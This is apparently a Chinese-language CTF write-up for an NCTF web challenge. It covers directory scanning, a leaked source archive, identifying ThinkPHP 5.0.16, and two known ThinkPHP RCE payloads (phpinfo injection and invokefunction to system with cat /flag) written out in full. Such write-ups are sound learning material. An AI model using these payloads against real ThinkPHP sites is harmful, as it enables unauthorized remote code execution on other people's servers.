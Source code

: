 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden
![web-1.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.2.png)


发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.4.png)


tp5.0.16,这个版本的tp有rce的nday,


尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.5.png)


查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.6.png)


![web-1.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.7.png)

